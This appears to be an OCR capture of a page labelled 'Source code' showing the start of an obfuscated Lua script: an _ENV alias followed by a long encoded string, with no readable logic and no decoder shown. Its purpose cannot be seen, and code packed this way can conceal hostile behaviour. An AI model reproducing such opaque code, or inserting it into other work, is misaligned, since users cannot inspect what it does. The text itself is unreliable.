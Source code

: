 gojUvnsCklZPdPzt=_ENV;xFqAVBZTSzLDLUl='K18+(y<EnIkF5_%/(111In8WkF+5Fn(M5n(%/5kF+1Ik+F_<(y5((%5k<EF++%5z(n_Qy<3yFI+%5Iy(nF1kIn8^kn8%%5nF11Ik8%<81<FE(1n+11I:1nkU8<_I</%F(ks_nI18kE/+n_)inn1aI<(y/5EE/FI<1Ik(_knF+nE8815+yE_E+(k8+EF/(E5+y<_byn%j<<1<5+yy_ky%_FEF_8EE/Fn%1%Ik_F<F%nEu/nE%+y_F<<%%8k_<n/3yIy8yyF%y<n/eEn/%F+<3%^E1kF+yFn(G5n(%x_kF8%FE/k_(y_/n+nE<3n8(/n5+y8_*yn%o<<8(5+(I_8<<Ik(+/5E/FF(<5ny=_ny%1_FF+%5Ey_I+1/k:8nFz+<%FIn1nkI18kQ/+n8YHnn1zI<(I_/yFFkE_/2EF18I/%FE//nnbXnn%<_%EE</EE_1<n/1<kk8%kF(FF/y(nF1+In86kn8%5EE55F<__n<;%n<%++_1y/I8y_%+EnF8E/1nn/8zyk8Ik/(<Eky1_/<<Ik<k%Fn(^kI11Iko_F<8%nEH/nE%(+I+8kkg8nFr+</yIE1+k<8%<k815n(%_+<4_/88_IniM<IF5Fy5_n<d%n<%1F5<(%F<<5/1Ek/<nI1IIn_+<(%V<n/sE<8(_I<k5_<E/%n<>+IZ11ky_F<k%nER/nE%85_%yF%yEy%5nI1Dn/_+<1%S<n/tE<8+_n<<%+8/%FEn9y(+_8ym_n<{%<k(+/5+y<I/(n%+EE/E+F55(n_eyn_%I_(1F_(y5/<(kE((%FE%G<(+_/y6_n<m%<k8(<5+<+_E<5/y8k_Fnn58E_1Ek5+nk/((I(O8IE1/kE8+k/+0Fn(N5<nW8I<8+t51(1n+1yI>1nkM8<_%E/unI%/%kI+Ik/((k<(E_11+k58ikn+XF<<E1nI<_kFa+I5</k5(yI_+<%k8<%/En_1(II8FyF%n<n/)En/%F1<(_FEn/+n<1+(+5_yo_n<d%<I((<_E(/I+8(ko8nF;+<%EE_Z8n_8EF%(<5+yW_1<yIF8%kn+UFn+%/_IE8<kE8_5</kF8y<_+E+%EE5F+(h52(n_Oy<=yF5+EF%(F_%<yIF8+kn+wFn+%__E<_F<E%nEN/nE%8_%1<</1E55y+F5((n_vyn_%Fn+E_1j+I81JIn8Ak<y/9IIo1Iky8kk+8_FE/F_EunIr1nI%E8t<n%18I_%5<I/1F5++_11?_1yF%%<k//E(e/Iys/k(1_F1+n5<+/_Ny%kHy_/1EE51nEv+k8%(<k/8n1+_5+(%_<yE%5+1_kn(:+InrFk<1/nI+/FFBEF((/_%y/%+E_/E(E_1IE1+k++ EI(1_1yw5/<(/1<k%Fn<5nn%1/I+_F<<%nE&/nE%+%%1<5/yEIF+(m5*(n_{y<Q<F+(y5k(%5F<FIF+Ekn+pFn+%%_Ik1FF(8FFy(%5Ey55yy/%yE%/FnI1XnI9ykk8Ek/+<EF&ynn1vIn1%__EF1(nE5F<8_n< %n<%815Ey%I8(_%%EIu<n_58<%1+k%8+<k1nI+D+I81BIn8!k<<8X<I(/+E<t+FP+q51/FnIRnIt1nI%y</EnZ1<E481kI+<<F/FEnL6nnZ%5+E./}n1wEn+1%IF8IFf%FnE/nn}&nn%+_/(<//+n%11I5_8n++-<k8yF/y(%0yE%5+5kk<.5I<+5F<:_n<c%n<%1F5yy%_FEC%E8k_+n<i%(k/<kI+1F5/+E%}Onn19I<E8%FEFz5Iy5F<8_n<?%n<%1%5Fy_%8<<%+n+F8<n?+IE1EE(%8EE//nE:+I/1VIn82k<yI//I</nI+8EkE1&5((I5/+/%yy//(y+/<yF1yk+8BI_%+E^/GEnDUn<(y%+E5%/+85%Ik5FyI_n<:%n<%88_EyE_+<n/1E+/<+F5n(n_eyn_%I+(c5dy1F1(85/8+k5+)Fn(^8FFn+I_8%FEy/nnf&nn%(:%%<F/I+k<YF+8/Inn/FE<8FnU+I%1iIn8sk<y<D+Iy^_k185k<%kky+/_(<&_E<5k8<y_ynI18k+g/yk%T<n/zEnl.nn1n_n8+k_+6Fn(d5<ky8/k(+_E+/5ng^nIq1<5/<F:k+F5F(n_#yn_%I<(1_1(E_5(<%IE(/_n1FF((5ny6_ny%11k88/n+1kIv1nkU8<_IE/1<Ek1%IF+Fk/((I5yFF/<y_/E(_+E<FFyh5nyi_ny%1%51(/5yy8I8+_%%E+/yny58<F1%k<%8/FsnE5y<I<(148<&kF+(Fn(J5n(%/5E11kE+//n7}nIb1<%FEk/+n+1(I__+y/%J<n/NE<yy_%<(%+Ee/1++5E(-5nyl_<n<+551(kn8(F_%<<k8E+J<E/A/I__+y_%7<n/lE<+E__yE%58+F +QFn(f5<EF8nkn+IIy8+k<jF5n1nkc8nk%<%HkI+8yyk8nF++%F/{8%1y+%_88/kn()II<q/Iy8%kE8%E8y15Fy%_k1k5/EIU1nn/yn/1yyk1nE_/8F5yFnk+n_/<<%/n(/Fn%5_<F/+EFB+E+=8ncNnIL1<_<<//%E/18II8(k%+y<F/EEn;jnn0%50E1/5E//FI<5Fy+_n<J%n<%8/kF FIF1nkp8nk%<5i+I51EykDyF8+E5_y<nkk1y/+_8n(%EIn<nny+%E<.%nEZ/<n_1_I8+/%IE1F8y_o+In8.kI+WF_/+n(3pnn1RI<(k%/E+}<I<18<5_k<//EE//FIyXnI61nI%(%/En<:EI%1Eyko<F+(y5k(%5F<FIky0%FE///Iy5Fyy_n<&%n<%815FyM%<1FF<8nFr+nF%<%1Fk_8yFI((F%;8F_yE%5En%/n(Fky55kn<88kF+_E+R+nJtnIJ1<5EEk/FE_58<_1kI/+yF%/8Eni nn1JIn8*/1E FFy<5nyJ_ny%SF58(k5%<+5_yU%EE5lF<_?/yEl<kI8IF1+%F/(<5E1+kn8Ckn+dF<<_1+I%8<<8B%5E+_5_y_5_+F%%E<%/+F5E(n_xyn_%n_++5n(<_<yEIF+:kn+xFn+%%%IF8_F8+<F+y+k<y+%y<%%+En/yE/5+yE_6yn%g<</Enk1(5%85I/+8F5E<_((E_k<(1%<+%%El/nn:V<5y<%%+E%Xy+F_E(n_Gyn_%I%+F5E(Enk+E%<<+/kny//n<%(y8%kE8!(n8lkI51kk81Fk(8nFi+nF%E+/Fn+%+E1/jEnm2n<+I_/E<%?E+S<IEW/y+%+<z%nEW/<F<(/%k<%k8(_p1n<11I5_+<y%z<n/HE<+F_+yE%<<<FE<y/_I(1+k88%<+%/E4/nnZ=<5+</%EE_z<n_5+y(_Qyn%f<<1/FF(I5/<B%%<+%(n1UnnE5Fy%_n<C%n<%8I_Ey%_%<+/9</F8y_11I<81k5%+E%/xEnuDn<(I_FE<%/n(5EEy1kIE1/k<%kkb(I_(yE_+<<k/+55E+F5E(n_gyn_%n_1n55(+_EyEIF8kkn+>Fn+%D1k185k_+_58+F5y(/I+1_kT8nFs+</<k+88I/%+E8/;En9Mn<++%/E</I+/%xn+15I/_F<<%nEc/nE%++%<y/%/E_F+(159(n_py<1IkF+%5<8k5Fyy%y8+Fn+0Fn(D5<n88<k+8_FE/kFn(/%(<_%FEIl:y(58(F%yyn%h<n%%k5(E_E<1/r<EFE<<G5nE!/ky_kI_1%FE+F5/y_5/1Fk<8nF0+nF%Ek8nnk/1IS/+n(bGnn1hI<yy/%E+x%IE1_<5_k<//EE//Fn5}nIj1nI%(FLEE%qFyE/%kI8IF1+E55{+II1lIn8bk<yI//I<5kEI8Ik%8%E81%5+y%_+1k5n(+F+(_5a(n_ay<O(F/+F5<(<kF+(%I<+/%+8/yE815IF+Mk++%FE+En+11I:1nk{8<_%E/cnI%_8EF+(FE/+n/Ydnn1gI<(y/5EE/FI<1Ik(_knF+nE88_5Ey5%ny//(((F8E+WEI__+y5%h<n/oE<8yFk(EIF+8kn+gFn+%%_k(1/k++%51(5n8+n_+<E%E((F8<n_1<F_+<+%q<n/gE<+8_<<(55<F/1yFNnnn1Iy+%1<)%nEo/<k%(/_n<%k8y</En15+y+_Hyn%=<<885<y(kFyI_/(F/nEnvI(+5%yZ_n<Y%<kI+F_<(/%(1FkE8nF2+nF%n+1Ek<8%FI(IEFp<nn1,In1%55n(9+I=11y+%n<i%nEh/<k%(/_Iy//Y<%/+n51F(k/yk88EF_(<EF*Inn1)In1%_In85I<n1<IF8nkI%kIF8_/FknkyZk1(%nF+(n5g(n_Vy<o<kF((5yyf5/<y%_8/__n</FnIj/ky_FF%%nEp/nE%y8%<<%/8E_55(I_1I51+F1/gF1+F5%(k_/y(%/Ey%/n(/_I11nk<1/FV+%na+__1yEk1<E%+n85((k_8<11_k+8%F<+E5511Fk<(%+En%Fn<//<I1/IF%EI(8/F%+/5+y__E8EF1EE/+n+1:yI/ynn1(I</kI%8EF<(<F/8EF5(8%E<E_+<s8%Fk+%E+//n67nI?1<%nEI;(nE)+I%_+<g%X<n/AE<+n_+<y%/<+/<n%FF(k5nyJ_ny%,_Fk(55Fy_%<<E%+E_F+(E5X(n_3y<1EFk+I55(+5%yEIk(I/5E+BMnF,_y+/8<g%nEZ/<_n(/%(E+k8EEqEE_0k(k1+kn8<<k+kF/(%_k18%E<EkkEF,n(85Fy%_n<b%n<%855Fy1_k<%_EEkc8E/1(<F8(kE%+Ey/DEn)Jn<+%_/<n/%y%UIIIO/k(/FF(+EE+,EnzLnIV1<_8E</+I+dEI5O(I/8/FI(n5+yC_11+I58tkn+*1kFI+5Fy_k<5+/EE+n_58y1yynk+8/Fa+n5-(<//I/+<F8(1F%c+I<1 In8)k<<(o+nI18k<j<F1(1FE(5k+y5_/1FF58nFB+nF%Ey1Fk<8%<k1<5/(y_y<y_y(+/nnGXIIF_EnE8nk%++F/(+_<(/_<yEk+8%FT+n5P(<dykk8Ek/+<EF._nn1DIn1%_<EEHsI<//k88kkE+5I+(55/0FI51nk>8nk%y_XknF8Wk18E<k1E5k(F5_1+I/8,kn+bF<E81/k(8kk%8/E+f8nMBnIg1<5+<%/<y51EI%8<kI+0<F/_EnlznnY%5%E(%/EE5E<<3/I%1/F<8/5(/knH7nI,1nk&8n/%En5+yk_Nyn%2<<1+5ky8_<<F_yyy/E+/%%I111II8<kE8%k//FnyenIi1nI%Ee/Fnn#<(F_nyn%o<n%%kny1_%yk%+E{/1++5/(25ny _<Iy+851y1n8+I%A<</F8k_<n+1yIk1%IF+F<k8mFF(/5/1+kk8,kn+qF<E<;/kk8%<81%5(+F_Oy_%8yF/(</?TE_1F(F_yyn%b<n%%I%yE5_y_IF85kn+cFn+%%_Ik1FFQ+1FE/kF((F%(y/k+++F7+n5j(</nk/8%F<1(55(F_1yk%%8+F++qFn(>5<ny8%k++55</kkny5%1<Ek+85Fl+n5R(</nnk1y<F/nEnjunnW%5+E:/ln1%k<F%%y+_/< %nE&/<kyy8_Ey_%_E_F+(F5*(n_dy<}+k_(<5+yn5/18FF<%/<+8_5n+1<I%8IFN+_E+PknLNnIU1<5/<Fh8(E%En%1Fk%%8ky1y5<(F5/<?%%y/kF+kFn(75n(%*%kE8FF/1(n81EI/8Ek+8%F6+n5e(</nnk1yn(/8EFx8nn1;In1%%(++51(h5ny9_<n<8/Fy(+5/(F_%<_k++(FZ+n5L(<x1kk8EFn/8I_y1_Ey/%IEAkFnkFn(!5n(%88F<+%58(_I51Ik1<5%+n153n1gFI%1kk/8(F/(yF/y(5_<1%nE<%/n{m%y:B_k18EE1+EF+y8I(1kk8+1%_E+/%n